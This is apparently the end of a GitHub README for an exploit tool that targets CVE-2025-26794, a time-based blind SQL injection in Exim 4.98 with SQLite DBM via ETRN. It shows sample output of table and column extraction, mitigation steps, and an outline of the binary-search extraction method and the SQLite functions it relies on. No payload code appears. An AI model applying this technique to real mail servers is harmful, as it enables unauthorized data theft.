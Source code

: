 ```
╔═══════════════════════════════════════════════════════════╗
║     CVE-2025-26794: Exim SQLi Data Extraction Tool        ║
║                  FOR AUTHORIZED USE ONLY                  ║
╚═══════════════════════════════════════════════════════════╝

[*] Testing vulnerability...
[+] Normal response time: 0.123s
[+] Delayed response time: 1.456s
[!!!] VULNERABLE - Time difference: 1.333s

[*] Extracting table names...
[*] Extracting table 1...
[+] Extracted: users
[+] Found table: users

[*] Extracting columns from table 'users'...
[+] Found column: id
[+] Found column: username
[+] Found column: email
```

## 🛡️ Mitigation

If you are running Exim 4.98 with SQLite DBM:

1. **Update Exim**: Upgrade to patched version (4.98.1 or later)
2. **Input Validation**: Implement strict ETRN command validation
3. **Parameterized Queries**: Use prepared statements for all database operations
4. **Firewall Rules**: Restrict SMTP access to trusted networks
5. **Disable ETRN**: If not needed, disable ETRN command in Exim configuration

## 🔧 Technical Details

### Binary Search Algorithm

The exploit uses binary search to efficiently extract characters:
- ASCII printable range: 32-126
- Average queries per character: ~7 (log₂ 94)
- Optimized for minimal network traffic

### SQLite Functions Used

- `unicode()`: Get ASCII value of character
- `substr()`: Extract substring from result
- `sqlite_master`: System table for schema enumeration
- `pragma_table_info()`: Column metadata extraction

## 📚 References

- **CVE Details**: [CVE-2025-26794](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-26794)
- **Exim Security Advisory**: [Official Exim Advisory]
- **OWASP SQL Injection**: [OWASP Guide](https://owasp.org/www-community/attacks/SQL_Injection)
